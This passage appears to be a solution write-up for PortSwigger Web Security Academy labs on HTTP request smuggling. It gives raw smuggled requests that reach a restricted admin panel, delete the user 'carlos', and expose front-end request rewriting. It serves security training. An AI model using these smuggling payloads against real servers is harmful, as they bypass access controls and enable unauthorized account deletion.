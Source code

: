 ```
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
6. Observe that you can now access the admin panel.
7. Using the previous response as a reference, change the smuggled request URL to delete the user ``carlos``:
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

## Exploiting HTTP request smuggling to reveal front-end request rewriting
Reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting


### Solution
1. Browse to ``/admin`` and observe that the admin panel can only be loaded from ``127.0.0.1``.
2. Use the site's search function and observe that it reflects the value of the ``search`` parameter.
3. Use Burp Repeater to issue the following request twice.
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```
4. The second response should contain "Search results for" followed by the start of a rewritten HTTP request.